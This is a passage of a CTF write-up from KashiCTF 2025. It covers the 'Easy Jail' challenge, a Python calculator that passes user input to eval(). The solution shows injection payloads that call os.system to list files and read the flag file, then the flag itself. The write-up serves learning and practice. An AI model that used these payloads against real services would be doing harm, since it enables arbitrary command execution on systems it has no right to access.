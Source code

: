 ```yaml
---
date: February 24, 2025
description: API vulns, jails, and some OSINT
platform: KashiCTF 2025
categories: Web, OSINT, Misc
tags:
---
```

#jails #python #sqli/Union #steganography #chess  #API #mass-assignment 

# Misc
## Easy Jail 
I made this calculator. I have a feeling that it's not safe :(

chall.py
```python
def calc(op):
	try : 	
		res = eval(op)
	except Exception as e:
		return print("Wrong operation", e)
	return print(f"{op} --> {res}")

def main():
	while True :
		inp = input(">> ")
		calc(inp)

if __name__ == '__main__':
	main()
```
solution
1. create lambda and runs os that returns something (too lazy to setup revshellc)
2. run that lambda

```python
exec("f = lambda: __import__('os').system(\"id\")")
exec("global f; f = lambda: __import__('os').system(\"ls\")")
exec("global f; f = lambda: __import__('os').system(\"cat flag.txt\")")
exec("global f; f = lambda: __import__('os').system(\"cat /flag.txt\")")

(lambda: __import__('os').system('ls'))()
(lambda: __import__('os').system('cat /flag.txt'))()

__import__('os').system('ls')
__import__('os').system('cat /flag.txt')
```
KashiCTF{3V4L_41NT_54F3}

## Easy Jail 2 
I made a completely secure calculator this time.
